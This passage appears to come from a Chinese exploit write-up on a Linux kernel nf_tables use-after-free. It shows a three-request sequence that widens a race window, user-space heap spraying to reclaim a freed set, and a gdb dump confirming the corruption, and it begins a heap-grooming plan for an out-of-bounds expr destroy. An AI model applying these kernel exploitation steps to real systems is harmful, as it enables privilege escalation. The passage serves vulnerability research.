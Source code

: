 可以利用代码的循环增大时间窗，具体做法如下，下发三个请求分别为：

1. NFT\_MSG\_DELRULE 删除 rule 及它引用的匿名 set
2. NFT\_MSG\_DELSET 删除 delay\_set ，该 set 里面有大量的 elem
3. NFT\_MSG\_DELSETELEM 引用被释放的匿名 set

在 nf\_tables\_trans\_destroy\_work 处理第二个请求释放 delay\_set 时，会花很多时间释放其中的 elem，这时我们可以在用户态堆喷占位 set。

​​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-16944d9c97a6fe8e329f0424bbd6d171b6a06117.png)​​

‍

通过调试可以确认 pwn\_lookup\_set 被占位后, ops-&gt;elemsize 从 8 变成了 16

```plaintext
(gdb) p (((struct nft_trans_elem *)trans->data)->set)->name
$12 = 0xffff888113fffea0 "race_set_0004"
(gdb) p *(((struct nft_trans_elem *)trans->data)->set)->ops
$13 = {
  lookup = 0xffffffffc085ff00 <nft_hash_lookup>,
  update = 0x0 <fixed_percpu_data>,
  delete = 0x0 <fixed_percpu_data>,
  insert = 0xffffffffc085fa10 <nft_hash_insert>,
  activate = 0xffffffffc085f420 <nft_hash_activate>,
  deactivate = 0xffffffffc085f950 <nft_hash_deactivate>,
  flush = 0xffffffffc085f450 <nft_hash_flush>,
  remove = 0xffffffffc085f480 <nft_hash_remove>,
  walk = 0xffffffffc085f4c0 <nft_hash_walk>,
  get = 0xffffffffc085fe40 <nft_hash_get>,
  privsize = 0xffffffffc085f830 <nft_hash_privsize>,
  estimate = 0xffffffffc085f7d0 <nft_hash_estimate>,
  init = 0xffffffffc085f790 <nft_hash_init>,
  destroy = 0xffffffffc085f690 <nft_hash_destroy>,
  gc_init = 0x0 <fixed_percpu_data>,
  elemsize = 16
}
(gdb) bt
#0  0xffffffffc0850984 in nft_commit_release (trans=0xffff88811e22da00) at net/netfilter/nf_tables_api.c:8476
#1  nf_tables_trans_destroy_work (w=<optimized out>) at net/netfilter/nf_tables_api.c:8513
#2  0xffffffff810e581c in process_one_work (worker=worker@entry=0xffff8881039c7540, work=0xffffffffc0872380 <trans_destroy_work>) at kernel/workqueue.c:2289
#3  0xffffffff810e5a40 in worker_thread (__worker=0xffff8881039c7540) at kernel/workqueue.c:2436
#4  0xffffffff810ee77a in kthread (_create=0xffff888107f66640) at kernel/kthread.c:376
#5  0xffffffff810028bf in ret_from_fork () at arch/x86/entry/entry_64.S:306
#6  0x0000000000000000 in ?? ()
```

‍

### 堆风水分析

占位 set 后可以让 elem 错位，利用 nf\_tables\_set\_elem\_destroy 可以越界销毁一个 expr，因此我们需要在 elem 的附近布置 nft\_log expr，elem 在 nft\_add\_set\_elem 中被分配，分配的 flag 为 GFP\_KERNEL\_ACCOUNT，分配大小可以控制。
